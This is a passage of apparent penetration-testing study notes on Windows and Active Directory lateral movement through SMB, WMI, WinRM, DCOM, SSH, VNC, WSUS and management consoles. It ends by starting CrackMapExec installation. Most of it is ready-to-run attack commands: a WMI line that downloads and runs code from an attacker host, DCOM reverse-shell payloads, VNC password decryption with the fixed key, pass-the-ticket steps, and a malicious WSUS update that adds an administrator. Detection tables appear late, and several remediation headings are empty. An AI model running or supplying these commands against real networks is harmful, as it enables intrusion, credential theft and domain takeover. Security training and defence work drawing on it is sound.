proxychains4 -q atexec.py [DOMAIN]/[user]:'[password]'@[dc-ip] "powershell -e BASE64_PAYLOAD"Methodology
-
nmap -p139,445 TARGET -sV -sC -Pn -
netexec smb TARGET -u user -p 'pass' -d domain.local -
.\PsExec.exe \\TARGET -i -u DOMAIN\user -p password cmd -
.\SharpNoPSExec.exe --target=TARGET --payload="REVERSE_SHELL_CMD" -
.\NimExec -u user -d domain -p pass -t TARGET -c "PAYLOAD" -
reg.exe add "\\TARGET\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\APP.exe" /v Debugger /t reg_sz /d "PAYLOAD" -
psexec.py DOMAIN/user:'pass'@TARGET smbexec.py DOMAIN/user:'pass'@TARGET atexec.py DOMAIN/user:'pass'@TARGET "COMMAND" -
services.py DOMAIN/user:'pass'@TARGET create -name SvcName -display SvcName -path "PAYLOAD_PATH" services.py DOMAIN/user:'pass'@TARGET start -name SvcName -
services.py DOMAIN/user:'pass'@TARGET delete -name SvcName
Remediation for all SMB-based attacks:
5.4 Windows Management Instrumentation (WMI)
Windows Management Instrumentation (WMI) provides a standardized way to interact with system management information and manage devices and applications in a networked environment. WMI can query system information, configure settings, and perform administrative tasks on remote machines. It uses TCP port 135 for the initial connection and dynamically allocated ports (49152-65535) for subsequent data exchange.
Why WMI is valuable for lateral movement: WMI is built into Windows and provides process creation capabilities without uploading files. It uses native Windows infrastructure, making detection more challenging. WMI commands blend in with legitimate administrative activity.
5.4.1 WMI Rights and Enumeration
By default, only members of the Administrators group can perform remote WMI operations. Non-administrator access is possible only when specifically configured via WMI namespace security.
Enumeration with Nmap:
nmap -p135,49152-65535 TARGET -sVCredential testing with NetExec:
netexec wmi TARGET -u [user] -p [password](Pwn3d!) means the user has admin rights to execute WMI commands. Without (Pwn3d!), the credentials are valid but lack admin privileges for remote WMI execution.
5.4.2 Lateral Movement from Windows
Windows provides two interfaces for WMI: wmic (deprecated since Windows 10 21H1) and PowerShell WMI cmdlets.
Query remote system information:
# Using WMIC
wmic /node:[dc-ip] os get Caption,CSDVersion,OSArchitecture,Version
# Using PowerShell
Get-WmiObject -Class Win32_OperatingSystem -ComputerName [dc-ip] | Select-Object Caption, CSDVersion, OSArchitecture, VersionExecute commands remotely (process creation):
# Using WMIC
wmic /node:[dc-ip] process call create "notepad.exe"
# Using PowerShell
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName [dc-ip]
# With explicit credentials
$credential = New-Object System.Management.Automation.PSCredential("username", (ConvertTo-SecureString "password" -AsPlainText -Force))
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName [dc-ip] -Credential $credentialExecute a reverse shell payload via WMI:
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell IEX(New-Object Net.WebClient).DownloadString('http://[attacker-ip]/s')" -ComputerName [dc-ip]Important WMI classes:
| WMI Class | Purpose |
|---|---|
Win32_OperatingSystem | OS details |
Win32_Process | Process management (create, terminate) |
Win32_Service | Service management |
Win32_ComputerSystem | Overall system information |
5.4.3 Lateral Movement from Linux
wmic (Linux client):
# Install
sudo apt-get install wmi-client
# Query remote system
wmic -U [domain]/[user]%[password] //[dc-ip] "SELECT Caption, CSDVersion, OSArchitecture, Version FROM Win32_OperatingSystem"wmiexec.py (Impacket): Executes commands via WMI but retrieves output over TCP port 445. If port 445 is blocked, use -silentcommand or -nooutput.
# Standard execution (requires port 445 for output)
wmiexec.py [domain-short]/[user]:[password]@[dc-ip] whoami
# Without output retrieval (works when port 445 is blocked)
wmiexec.py [domain-short]/[user]:[password]@[dc-ip] whoami -nooutputNetExec WMI: Can retrieve output via WMI rather than SMB, bypassing the port 445 requirement.
# WMI query
proxychains4 -q netexec wmi [dc-ip] -u [user] -p [password] --wmi "SELECT * FROM Win32_OperatingSystem"
# Execute command
proxychains4 -q netexec wmi [dc-ip] -u [user] -p [password] -x whoamiMethodology
-
nmap -p135,49152-65535 TARGET -sV netexec wmi TARGET -u user -p pass -
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "PAYLOAD" -ComputerName TARGET -
wmiexec.py DOMAIN/user:pass@TARGET "COMMAND" netexec wmi TARGET -u user -p pass -x "COMMAND" -
wmiexec.py DOMAIN/user:pass@TARGET "COMMAND" -nooutput netexec wmi TARGET -u user -p pass -x "COMMAND"
Remediation
5.5 Windows Remote Management (WinRM)
Windows Remote Management (WinRM) is Microsoft's implementation of the WS-Management protocol, providing secure remote management via web services. WinRM is commonly used with PowerShell for automation and administration. It uses TCP port 5985 (HTTP) and TCP port 5986 (HTTPS).
Why WinRM is powerful for lateral movement: WinRM provides full PowerShell remoting capabilities, enabling interactive shells, script execution, and file transfers. It uses native Windows infrastructure and is widely deployed in enterprise environments. Both administrators and members of the Remote Management Users group can use WinRM, making it accessible even with non-admin accounts.
5.5.1 WinRM Rights and Enumeration
WinRM access is available to:
- Administrators group members
- Remote Management Users group members
- Users explicitly granted WinRM access via Group Policy
Enumeration with Nmap:
nmap -p5985,5986 TARGET -sCVCredential testing with NetExec:
netexec winrm [target-ip] -u [user] -p [password](Pwn3d!) indicates WinRM access, but does not necessarily mean the user is an administrator.
BloodHound does not query local group members for WinRM rights. The only reliable way to check WinRM access is through credential testing. Always try WinRM when you compromise an account.
5.5.2 Lateral Movement from Windows
Invoke-Command (non-interactive, executes a script block remotely):
# Using current session credentials
Invoke-Command -ComputerName srv02 -ScriptBlock { hostname; whoami }
# With explicit credentials
$username = "[DOMAIN]\[user]"
$password = "[password]"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
Invoke-Command -ComputerName [dc-ip] -Credential $credential -ScriptBlock { whoami; hostname }winrs (Windows Remote Shell, command-line tool):
# Using current credentials
winrs -r:srv02 "powershell -c whoami;hostname"
# With explicit credentials
winrs /remote:srv02 /username:[user] /password:[password] "powershell -c whoami;hostname"If using an IP address instead of a hostname, either use explicit credentials or add -Authentication Negotiate.
5.5.3 Copy Files via WinRM
PowerShell remoting sessions enable secure file transfers:
# Create a remote session
$sessionSRV02 = New-PSSession -ComputerName SRV02 -Credential $credential
# Copy file TO the remote machine
Copy-Item -ToSession $sessionSRV02 -Path 'C:\Users\[user]\Desktop\Sample.txt' -Destination 'C:\Users\[user]\Desktop\Sample.txt' -Verbose
# Copy file FROM the remote machine
Copy-Item -FromSession $sessionSRV02 -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\Users\[user]\Desktop\host.txt' -Verbose5.5.4 Interactive Shell (Enter-PSSession)
# Using an existing session
Enter-PSSession $sessionSRV02
# Direct connection
Enter-PSSession srv02.[domain]5.5.5 Using Hashes and Tickets with WinRM
Kerberos tickets can be used for WinRM authentication via Rubeus:
# Forge a TGT
.\Rubeus.exe asktgt /user:leonvqz /rc4:32323DS033D176ABAAF6BEAA0AA681400 /nowrap
# Create a sacrificial process
.\Rubeus.exe createnetonly /program:powershell.exe /show
# Import the ticket in the new process
.\Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEW...
# Connect via WinRM using the imported ticket
Enter-PSSession SRV02.[domain] -Authentication NegotiateDouble-hop problem: When connected via WinRM, trying to authenticate to a third machine will fail because Kerberos tickets are not forwarded. Workaround: use Rubeus within the remote session to forge a new ticket for further authentication.
5.5.6 Common PowerShell Errors and Fixes
| Error | Cause | Fix |
|---|---|---|
| Kerberos 0x80090322 error | Using hostname instead of FQDN | Use the FQDN: Enter-PSSession srv02.inlanefreight.local |
| TrustedHosts error | Target not in TrustedHosts list | Set-Item WSMan:localhost\client\trustedhosts -value * -Force |
| Authentication method mismatch | Kerberos or NTLM negotiation failure | Use -Authentication Negotiate flag |
| Non-admin user cannot execute | Missing WinRM permissions | Use -Credential parameter or Invoke-Command |
5.5.7 Just Enough Administration (JEA)
JEA is a security technology for delegated administration with PowerShell. It limits users to executing only predefined commands and accessing specific resources, reducing the attack surface. JEA creates PowerShell endpoints with tailored roles and capabilities.
Potential abuse: JEA configurations may allow executing commands that provide escalation paths. Research resources include "Just Too Much Administration; Breaking JEA" and "Breaking The Microsoft JEA Technology To Hack A System."
5.5.8 Lateral Movement from Linux
NetExec:
# Execute cmd command (-x) or PowerShell (-X)
netexec winrm [target-ip] -u [user] -p [password] -x "ipconfig"Evil-WinRM:
# Install
sudo apt-get install ruby
sudo gem install evil-winrm
# Connect
evil-winrm -i [target-ip] -u '[domain]\[user]' -p [password]Evil-WinRM features (accessible via menu command):
| Feature | Description |
|---|---|
| Dll-Loader | Load DLLs into memory |
| Donut-Loader | Load Donut shellcode payloads |
| Invoke-Binary | Run .NET binaries in memory |
| Bypass-4MSI | AMSI bypass |
| upload/download | File transfer |
| services | Service management |
Loading PowerShell scripts:
# Connect with script directory
evil-winrm -i [target-ip] -u '[domain]\[user]' -p [password] -s '/home/plaintext/'
# Import a script in the shell
*Evil-WinRM* PS > PowerView.ps15.5.9 Windows PowerShell Web Access (PSWA)
PowerShell Web Access provides a web-based interface for accessing PowerShell sessions remotely via a browser. Default URL path is /pswa on port 80 or 443 (configurable). It requires valid credentials with appropriate WinRM permissions.
Performance tip: When retrieving large files over PSWA, convert to Base64 first to avoid slow line-by-line transfers:
[Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\System32\drivers\etc\hosts"))PowerView through PSWA: When using PowerView through PSWA, you may encounter DirectoryServicesCOMException. Fix by passing explicit credentials:
$username = "[DOMAIN]\[user]"
$password = "[password]"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
Get-DomainUser -Credential $credential -FindOneMethodology
-
nmap -p5985,5986 TARGET -sCV netexec winrm TARGET -u user -p pass -
Invoke-Command -ComputerName TARGET -ScriptBlock { COMMAND } -Credential $cred -
Enter-PSSession TARGET.domain.local -Authentication Negotiate -
$s = New-PSSession -ComputerName TARGET -Credential $cred Copy-Item -ToSession $s -Path LOCAL -Destination REMOTE -
.\Rubeus.exe asktgt /user:USER /rc4:HASH /ptt Enter-PSSession TARGET.domain.local -Authentication Negotiate -
evil-winrm -i TARGET -u 'domain\user' -p password -s /scripts/ -
curl -k https://TARGET/pswa
Remediation
5.6 Distributed Component Object Model (DCOM)
Distributed Component Object Model (DCOM) extends COM to support communication among objects on different computers over a network. It operates on top of RPC/TCP, using TCP port 135 for initial communication and dynamic ports (49152-65535) for subsequent interactions. DCOM object configuration is stored in the registry, linked to CLSIDs, ProgIDs, and AppIDs.
Why DCOM works for lateral movement: DCOM objects like MMC20.Application, ShellWindows, and ShellBrowserWindow expose methods that can execute arbitrary commands on remote systems. These are legitimate Windows components being used for their intended purpose (remote administration), making detection more challenging.
5.6.1 DCOM Rights and Enumeration
DCOM lateral movement requires membership in the Distributed COM Users group or the Administrators group. Permissions are managed via DCOMCNFG, Group Policy, or the Windows Registry.
Key DCOM identifiers:
| Identifier | Description |
|---|---|
| CLSID (Class Identifier) | Unique GUID for a COM class, pointing to its implementation via InProcServer32 (DLL) or LocalServer32 (EXE) |
| ProgID (Programmatic Identifier) | Optional, user-friendly name for a COM class (not guaranteed unique) |
| AppID (Application Identifier) | Configuration details for COM objects in the same executable, including remote access permissions |
Enumeration with Nmap:
nmap -p135,49152-65535 TARGET -sCV -Pn5.6.2 MMC20.Application (Windows)
The MMC20.Application object allows remote interaction with Microsoft Management Console, enabling command execution via the ExecuteShellCommand method.
# Start listener on attack host
nc -lnvp 8001
# Create instance of MMC20.Application on remote host
$mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","[dc-ip]"))
# Execute reverse shell via ExecuteShellCommand
# Parameters: Command, Directory, Parameters, WindowState
$mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-e BASE64_REVERSE_SHELL",0)Execution of mmc.exe through COM is highly unusual and likely to trigger EDR alerts. This technique is difficult to mask as benign activity.
5.6.3 ShellWindows and ShellBrowserWindow (Windows)
ShellWindows and ShellBrowserWindow DCOM objects facilitate remote interaction with Windows Explorer instances. Since they lack a ProgID, you must use Type.GetTypeFromCLSID with the CLSID.
Find the CLSID:
Get-ChildItem -Path 'HKLM:\SOFTWARE\Classes\CLSID' | ForEach-Object{Get-ItemProperty -Path $_.PSPath | Where-Object {$_.'(default)' -eq 'ShellWindows'} | Select-Object -ExpandProperty PSChildName}ShellWindows CLSID: 9BA05972-F6A8-11CF-A442-00A0C90A8F39
ShellBrowserWindow CLSID: C08AFD90-F2A1-11D1-8455-00A0C91F3880
# Create instance using CLSID
$shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","[dc-ip]"))
# Execute command via ShellExecute
$shell[0].Document.Application.ShellExecute("cmd.exe","/c powershell -e BASE64_PAYLOAD","C:\Windows\System32",$null,0)5.6.4 dcomexec.py (Linux)
dcomexec.py (Impacket) provides an interactive shell using DCOM endpoints. It operates over TCP 445 for output retrieval via ADMIN$. It supports MMC20, ShellWindows, and ShellBrowserWindow objects.
# Start listener
nc -lnvp 8080
# Execute with MMC20 object
proxychains4 -q python3 dcomexec.py -object MMC20 [DOMAIN]/[user]:[password]@[dc-ip] "powershell -e BASE64_PAYLOAD" -silentcommand
# If TCP 445 is blocked, use -no-output
dcomexec.py -object MMC20 DOMAIN/user:pass@TARGET "COMMAND" -no-outputThe user must be a member of the Distributed COM Users group or have administrator rights.
Methodology
-
nmap -p135,49152-65535 TARGET -sCV -Pn -
$mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","TARGET")) $mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-e PAYLOAD",0) -
$shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","TARGET")) $shell[0].Document.Application.ShellExecute("cmd.exe","/c PAYLOAD","C:\Windows\System32",$null,0) -
dcomexec.py -object MMC20 DOMAIN/user:pass@TARGET "COMMAND" -silentcommand
Remediation
5.7 Secure Shell (SSH)
Secure Shell (SSH) is an encrypted protocol for remote system management, operating on TCP port 22. While uncommon on Windows, administrators sometimes install OpenSSH for Windows for management purposes. If found, SSH provides a straightforward lateral movement path.
By default, the SSH server allows all user accounts to connect, even without specific privilege configuration, making it an attractive lateral movement target.
5.7.1 SSH Rights and Enumeration
SSH lateral movement on Windows requires: an SSH server (OpenSSH) installed and running, an SSH client on the initiating system, network connectivity on TCP 22, and valid user credentials.
# Scan for SSH
nmap TARGET -p 22 -sCV -Pn
# Test credentials
netexec ssh TARGET -u [user] -p [password]5.7.2 Lateral Movement from Linux and Windows
Password-based authentication:
# From Linux
ssh [user]@[target-ip]
# From Windows PowerShell
ssh [user]@[target-host]Private key authentication:
# From Windows (must fix permissions first)
# Copy key to user-owned directory to fix inheritance
copy C:\[keyfile] C:\Users\[user]\
# Verify permissions
icacls [keyfile]
# Connect with private key
ssh -i C:\Users\[user]\[keyfile] -l [target-user]@[domain] -p 22 [target-host]Permission error: If the private key file has overly permissive ACLs (e.g., BUILTIN\Users:(I)(RX)), SSH will refuse to use it. Copying the key to a directory the current user owns (e.g., C:\Users\USERNAME\) fixes the inheritance issue.
Limitation of key-based auth: Private/public key authentication performs a local logon only (no network-based authentication), so you cannot use the session for further network authentication (no Kerberos tickets or NTLM tokens).
Other SSH capabilities: File transfer via scp, port forwarding, and tunneling (see Pivoting, Tunneling and Port Forwarding module).
Methodology
-
nmap TARGET -p 22 -sCV -Pn netexec ssh TARGET -u user -p pass -
ssh user@TARGET -
dir C:\Users\*\.ssh\id_rsa /s dir C:\Users\*\*.pem /s -
ssh -i /path/to/key user@TARGET
Remediation
5.8 Remote Management Tools (VNC, AnyDesk, TeamViewer)
Remote management tools such as AnyDesk, TeamViewer, and VNC are widely used by organizations for remote support and administration. These tools provide remote desktop access, file transfer, and system management capabilities. According to MITRE ATT&CK T1219, adversaries exploit these tools to establish interactive command and control channels, maintain persistent access, and transfer tools between systems.
Why remote management tools matter: Even in highly segmented networks with most ports blocked, machines may maintain open connections to remote management platforms. These tools often run with elevated privileges and may use shared credentials across multiple systems.
5.8.1 VNC (Virtual Network Computing)
VNC uses the Remote Frame Buffer (RFB) protocol to transmit keyboard/mouse events and relay graphical screen updates. It runs on TCP port 5900 by default. VNC captures only the console session.
Enumerating VNC:
Test-NetConnection -ComputerName SRV02 -Port 59005.8.2 VNC Credential Extraction
VNC passwords are often stored in the registry and can be decrypted. Administrators frequently use shared passwords across multiple machines.
TightVNC password extraction:
# Query TightVNC registry for password
reg query HKLM\SOFTWARE\TightVNC\Server /sThe Password key contains the encrypted password (e.g., 816ECB5CE758EAAA).
Decrypt VNC password (Linux):
echo -n 816ECB5CE758EAAA | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -CvRoot cause: VNC passwords are encrypted with a fixed, well-known DES key (e84ad660c4721ae0), making decryption trivial once the encrypted value is obtained from the registry.
5.8.3 VNC Lateral Movement from Windows
Open TightVNC Viewer and connect to the target with the extracted password. If a privileged account is logged into the console session, you inherit that session.
5.8.4 VNC Lateral Movement from Linux
Use F8 to access the VNC interaction menu for additional options.
Methodology
-
nmap -p 5900,5800,7070,5938 TARGET -sV -
reg query HKLM\SOFTWARE\TightVNC\Server /s reg query HKLM\SOFTWARE\RealVNC\WinVNC4 /v Password -
echo -n ENCRYPTED_HEX | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv -
echo PASSWORD | vncviewer TARGET -autopass
Remediation
# Install
sudo apt-get install xtightvncviewer
# Connect with password
echo VNCFake1 | proxychains4 -q vncviewer [dc-ip] -autopass
# Optimized for slow connections
echo VNCFake1 | proxychains4 -q vncviewer [dc-ip] -autopass -quality 0 -nojpeg -compresslevel 1 -encodings "tight hextile" -bgr233- Never use shared VNC passwords across systems
- Restrict VNC access to specific IP addresses
- Use VNC over an encrypted tunnel (SSH or VPN)
- Monitor for unauthorized VNC connections (port 5900 traffic)
- Remove VNC if not needed; prefer RDP with NLA for Windows remote access
- Store VNC passwords using strong encryption (not the default fixed DES key)
5.9 Software Deployment and Remote Management Tools
Software deployment and remote management tools (Microsoft Intune, SCCM, PDQ Deploy, MeshCentral, ManageEngine, SolarWinds Orion, Kaseya VSA, Ivanti Endpoint Manager) are essential for IT administration but can be exploited for lateral movement if their credentials are compromised.
Why these tools are high-value targets: They use agent-based architectures where managed devices maintain open connections to the management server (typically over port 443). Even in highly restricted networks, these management channels remain open, providing a path for lateral movement that bypasses firewall rules.
5.9.1 MeshCentral
MeshCentral is an open-source remote management platform that provides remote desktop control, file transfer, terminal access, and device monitoring. Its agent-based model means managed devices connect outbound to the MeshCentral server on port 443.
Enumeration:
nmap -p443 TARGET -sC -sVLook for the MeshCentral - Login HTTP title in the scan results.
Exploitation: If you obtain MeshCentral credentials, log into the web interface, navigate to My Devices, select the target device, and use the Terminal tab to establish a remote session with full command execution.
Key insight: Read the documentation of any deployment/management tool you encounter. Understand which functionalities can be abused for remote code execution. The attack pattern is consistent: obtain management credentials, authenticate to the management console, deploy commands/software to managed endpoints.
Methodology
-
nmap -p443,8080,8443 TARGET -sC -sV -
Get-Service | Where-Object { $_.DisplayName -match "Mesh|PDQ|SCCM|Intune|Kaseya" } Get-WmiObject -Class Win32_Product | Select-Object Name | Where-Object { $_.Name -match "Mesh|PDQ|Kaseya" } -
reg query HKLM\SOFTWARE /s | findstr -i "meshcentral\|pdq\|kaseya"
Remediation
5.10 Windows Server Update Services (WSUS)
Windows Server Update Services (WSUS) is a Microsoft service for distributing updates and patches across an enterprise without requiring direct internet access. WSUS is widely used in Windows corporate networks and operates on port 8530 (HTTP) by default.
Why WSUS is a compelling target: Even in heavily restricted networks, client machines must connect to the WSUS server to receive updates. By compromising the WSUS server, we can deploy malicious "updates" that execute arbitrary commands on any machine trusting that WSUS server. This is indirect lateral movement: the target pulls the payload rather than having it pushed directly.
Root cause: WSUS trusts the server to provide legitimate updates, and the update mechanism executes binaries as NT AUTHORITY\SYSTEM. If an attacker controls the WSUS server, they control what code runs on every managed client.
5.10.1 WSUS Rights and Enumeration
WSUS exploitation requires membership in the Administrator Group or the WSUS Administrator Group on the WSUS server.
Identify WSUS server from a client:
# Registry query
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
# Using SharpWSUS
.\SharpWSUS.exe locateInspect WSUS server (requires access to WSUS server):
.\SharpWSUS.exe inspectThis reveals managed computers, their IP addresses, OS versions, last check-in times, downstream servers, and WSUS groups.
5.10.2 Creating a Malicious Patch
Constraint: WSUS only executes Microsoft-signed binaries. We use PSExec (Sysinternals, signed by Microsoft) as the payload carrier to execute arbitrary commands.
# Create malicious update (run as Administrator on WSUS server)
.\SharpWSUS.exe create /payload:"C:\Tools\sysinternals\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators filiplain /add" /title:"NewAccountUpdate"The output provides three commands for the workflow: approve, check, and delete.
Use PSExec64.exe when targeting 64-bit systems.
5.10.3 Approving the Malicious Patch
Automated approval with SharpWSUS:
# Approve for a specific computer
.\SharpWSUS.exe approve /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.[domain] /groupname:"FastUpdates"Manual approval via WSUS GUI:
Troubleshooting download failures: If the update approval fails to download PSExec64.exe (common with non-full-admin WSUS Administrator accounts), manually copy the binary to the WSUS content directory:
# Find the expected file path from Event ID 364
Get-WinEvent -LogName Application | Where-Object { $_.Id -eq 364 } | fl
# Copy PSExec to the expected location
copy C:\Tools\sysinternals\PSExec64.exe C:\WSUS\WsusContent\02\0098C79E1404B4399BF0E686D88DBF052269A302.exeThen click Retry Download in the WSUS console. If the update still fails, create a new update with a different title but the same payload.
5.10.4 Checking Status and Cleanup
Check if the update was installed:
.\SharpWSUS.exe check /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.[domain]To force the target to check for updates (if you have access to it), click Check For Updates in Windows Update settings.
Verify the attack worked:
# On target machine, verify user was added to Administrators
net localgroup administratorsCleanup:
.\SharpWSUS.exe delete /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv02.[domain]5.10.5 Alternative WSUS Exploitation Tools
| Tool | Language | Description |
|---|---|---|
| SharpWSUS | C# | Create, approve, check, and delete malicious WSUS updates |
| WSUSpendu | PowerShell | Inject malicious updates into WSUS, force execution on clients |
| Thunder_Woosus | C# | Manipulate WSUS updates for arbitrary command execution |
At the time of writing, no equivalent tools exist that function exclusively from a Linux environment.
Methodology
-
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer .\SharpWSUS.exe locate -
.\SharpWSUS.exe inspect -
.\SharpWSUS.exe create /payload:"C:\Tools\sysinternals\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c NET_COMMAND" /title:"UpdateTitle" -
.\SharpWSUS.exe approve /updateid:UPDATE_ID /computername:TARGET.FQDN /groupname:"GroupName" -
.\SharpWSUS.exe check /updateid:UPDATE_ID /computername:TARGET.FQDN -
.\SharpWSUS.exe delete /updateid:UPDATE_ID /computername:TARGET.FQDN
Remediation
5.11 General Considerations
Lateral movement success depends on factors beyond the specific technique — user privilege levels, firewall rules, credential availability, and creative use of non-standard ports all affect which methods work in a given environment.
5.11.1 User Privileges
Administrative rights are not always necessary for lateral movement. The following services allow non-administrators to execute commands:
| Service | Non-Admin Group Required |
|---|---|
| WinRM / PSRemoting | Remote Management Users |
| RDP | Remote Desktop Users |
| WMI | Administrators (by default, but can be configured) |
| DCOM | Distributed COM Users |
| SSH | Any user (by default on OpenSSH) |
Always test all compromised credentials against every available service. A non-admin credential that grants WinRM or RDP access is still a viable lateral movement path.
5.11.2 Firewall Blocking and Non-Default Ports
Administrators may apply various network restrictions:
- Changing default service ports
- Restricting access to specific workstations or IP ranges
- Blocking outbound internet access
- Monitoring network traffic
Identifying non-default ports:
# Find listening ports
netstat -ano
# Identify the service behind a port
tasklist /svc /FI "PID eq 336"For example, finding port 23389 associated with TermService reveals a non-default RDP port.
5.11.3 Credentials and Credential Reuse
Searching for credentials is crucial for identifying lateral movement opportunities. Successful lateral movement relies on using and reusing passwords, SSH keys, tokens, and website logins found during enumeration. The Windows Privilege Escalation module covers credential pillaging methods in detail.
5.11.4 IPv6 Bypass
IPv6 is enabled by default on Windows but often overlooked in firewall rules. If IPv4 is blocked but IPv6 is not, you can use IPv6 addresses to bypass restrictions.
# WinRM over IPv6
Enter-PSSession -ComputerName [dead:beef::647f:620f:3a1a:e978] -Authentication Negotiate
# RDP over IPv6
xfreerdp /v:[dead:beef::647f:620f:3a1a:e978] /u:user /p:pass5.11.5 Creative Lateral Movement Opportunities
Beyond standard techniques, look for unconventional lateral movement paths:
- Development environments running code hosted on accessible servers
- Applications connecting to shared folders to retrieve and execute DLLs (DLL hijacking via shares)
- MSSQL servers running queries from configuration files
- Inventory or management software installed domain-wide that can execute PowerShell commands
Methodology
-
netexec smb TARGET -u user -p pass netexec rdp TARGET -u user -p pass netexec winrm TARGET -u user -p pass netexec wmi TARGET -u user -p pass netexec ssh TARGET -u user -p pass -
netstat -ano tasklist /svc /FI "PID eq PID_NUMBER" -
Enter-PSSession -ComputerName [IPv6_ADDR] -Authentication Negotiate
5.12 Lateral Movement Prevention and Detection
Detecting and preventing lateral movement requires integrating both preventive controls and detection mechanisms. This section consolidates the defensive strategies applicable across all lateral movement techniques covered above.
5.12.2 Prevention Strategies
Network Segmentation:
Least Privilege:
Zero Trust Architecture:
5.12.3 Comprehensive Defense Summary
| Lateral Movement Method | Key Detection Indicators | Key Prevention Controls |
|---|---|---|
| RDP | Event 4624 type 10, Event 4778/4779 | NLA enforcement, session limits, restrict Remote Desktop Users group |
| SMB/PsExec | Event 7045 (new service), Event 4697 | SMB signing required, restrict admin shares, block SMB at boundaries |
| WMI | Event 4688 (process creation), WMI Activity events | Restrict remote WMI access, block RPC ports at boundaries |
| WinRM | Event 91 (WSMan session), PowerShell 4104 (script block) | Use HTTPS, implement JEA, restrict Remote Management Users |
| DCOM | Unusual mmc.exe/explorer.exe from DcomLaunch svchost | Restrict Distributed COM Users, consider disabling DCOM |
| SSH | Event 4624 type 8, OpenSSH logs | Restrict SSH users, require key auth, change default port |
| VNC | Port 5900 traffic, unauthorized remote connections | Strong unique passwords, IP restrictions, encrypted tunnels |
| WSUS | Event 364 (content download failure), unauthorized updates | Use HTTPS, restrict WSUS admin access, audit updates |
| Management Tools | Unauthorized console logins, unexpected agent activity | MFA, admin workstation restrictions, network segmentation |
Methodology
-
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624,4625} | Select-Object TimeCreated, Message | Out-GridView -
Invoke-Command -ComputerName (Get-ADComputer -Filter *).Name -ScriptBlock { net localgroup administrators } -
Set-SmbServerConfiguration -RequireSecuritySignature $true
5.12.1 Detection Strategies
Monitoring Authentication Logs:
Scrutinize login activity for unusual patterns: unexpected source IPs, off-hours logins, multiple failed attempts followed by success, and anomalous logon types.
| Event ID | Description | Lateral Movement Relevance |
|---|---|---|
| 4624 | Successful logon | Monitor logon type 3 (network), 10 (RDP), and source addresses |
| 4625 | Failed logon | Brute-force or credential spraying attempts |
| 4648 | Logon with explicit credentials | Runas, PsExec, or tools passing credentials explicitly |
| 4672 | Special privileges assigned | Admin logons from unexpected sources |
| 4688 | New process created | Unusual process creation (enable command-line logging) |
| 4698 / 4702 | Scheduled task created/updated | atexec.py and similar tools |
| 7045 | New service installed | PsExec, service-based execution tools |
| 7036 | Service state changed | Service start/stop from lateral movement |
How to filter authentication logs in Event Viewer:
Honeypots and Deception:
Deploy honeypots that mimic real systems to attract and detect attackers. Tools include KFSensor, sshesame, and fake SMB shares. Honeypots provide early warning of lateral movement attempts and reveal attacker TTPs.
Network Traffic Analysis:
Examine data flows to identify unusual communication patterns: systems that do not normally interact suddenly communicating, non-standard ports or protocols, and unexpected cross-segment traffic. Tools: Wireshark, Microsoft Network Monitor, Windows Performance Monitor.
Endpoint Detection and Response (EDR):
EDR solutions monitor endpoint behavior for suspicious activities such as execution of PsExec, PowerShell, WMI, and other tools commonly used in lateral movement. Configure EDR to alert on known lateral movement indicators.
6. Using CrackMapExec
CrackMapExec (CME) is a Swiss army knife for pentesting Windows/Active Directory networks. It leverages Impacket to interact with network protocols (SMB, LDAP, MSSQL, WinRM, RDP, SSH, FTP) and automates enumeration, credential testing, lateral movement, and post-exploitation across large environments. CME stores all discovered credentials in a local SQLite database for later reuse. The project has been forked as NetExec (https://github.com/Pennyw0rth/NetExec) and continues under active development there.
Key characteristics: runs on Linux and Windows, supports SOCKS proxies, modular architecture (50+ community modules), integrates with BloodHound and C2 frameworks. Most operations are performed in memory or via built-in Windows features, making CME generally opsec-safe.
6.1 Installation, Targets, and Protocols
CrackMapExec (CME) is a Swiss army knife for AD enumeration and exploitation. Proper installation, target specification, and protocol selection form the foundation for all CME operations.
6.1.1 Installation
CME developers recommend Poetry for dependency management. The installation flow is: install Poetry, install required libraries (libssl-dev, libkrb5-dev, libffi-dev), install Rust (required for the RDP protocol library aardwolf), then clone the repository and run poetry install.
# Install Poetry
curl -SSL https://install.python-poetry.org | python3 -
# Install required libraries
sudo apt-get install -y libssl-dev libkrb5-dev libffi-dev python-dev build-essential
# Install Rust (select option 1 when prompted)
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs/ | sh
# Clone and install CME
git clone https://github.com/Porchetta-Industries/CrackMapExec
cd CrackMapExec
poetry install
# Run CME
poetry run crackmapexec
# Or activate the Poetry shell to avoid typing 'poetry run' each time
poetry shell
crackmapexec --helpDocker installation:
